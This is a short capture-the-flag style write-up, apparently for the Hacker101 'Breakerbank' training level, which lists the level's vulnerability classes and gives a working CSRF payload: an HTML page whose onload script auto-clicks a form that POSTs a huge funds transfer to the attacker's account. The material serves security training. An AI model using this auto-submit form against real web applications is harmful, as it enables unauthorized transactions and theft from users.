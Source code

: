 # Level 0: Breakerbank 

```

		In this level, there are 4 vulnerabilities, falling into the following classes:
		CSRF
		Reflected XSS
		Authorization Bypass/Direct Object Reference

		Have fun!
		
```

## Authentication Bypass/Direct Object Reference/DOM XSS

### POST form with any value after editing the page source starting from body 

```javascript
<body onload="javascript:a()"></body>
<script type="text/javascript">function a(){document.getElementById("button").click();}</script>
<h1>Breakerbank</h1>
Your account number: 961<br><br>
<form action="https://levels-a.hacker101.com/levels/0/" method="POST">
    <h2>Transfer Funds</h2><br>
    <input type="input" name="from" value="1"><br>
    <input type="input" name="to" value="961"><br>
    <input type="input" name="amount" value="99999999999"><br><br>
    <input id="button" type="submit" value="Transfer" >
</form>
```

***Upon successful code injection***
![Upon Successful code injection](https://github.com/Isopach/Hacker101/blob/master/img/level0_auth_bypass0.png)

***After POST***
![After POST](https://github.com/Isopach/Hacker101/blob/master/img/level0_auth_bypass1.png)

----
